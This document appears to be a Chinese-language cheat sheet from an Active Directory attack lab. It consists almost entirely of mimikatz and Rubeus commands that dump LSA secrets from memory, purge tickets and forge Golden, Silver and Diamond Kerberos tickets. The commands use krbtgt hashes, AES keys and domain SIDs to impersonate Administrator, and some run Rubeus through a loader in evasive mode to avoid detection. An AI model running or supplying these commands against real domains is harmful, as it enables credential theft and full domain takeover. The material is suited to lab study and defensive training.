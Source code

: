- 用mimikatz撈出記憶體內資料
```
lsadump::lsa /patch
```
- 刪除既有的Kerberos tickets
```
kerberos::purge
```
### 製作金票眷
- mimikatz
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```
- Rubeus - evasive-golden mode
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```
- Rubeus - evasive-silver mode
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:132f54e05f7c3db02e97c00ff3879067 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```
## Diamond Ticket
>[!NOTE]
>- 先合法向 KDC 取得一張 TGT（確保格式正確、欄位完整）。
>- 修改關鍵欄位（例如把自己塞進 Domain Admins）。
>- 用 krbtgt 的 key 重新簽章，使得票證驗證仍然通過。

>[!WARNING]
>需要有krbtgt的aes256_hmac

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- We could also use /tgtdeleg option in place of credentials in case we have access as a domain user
```
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorpdc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
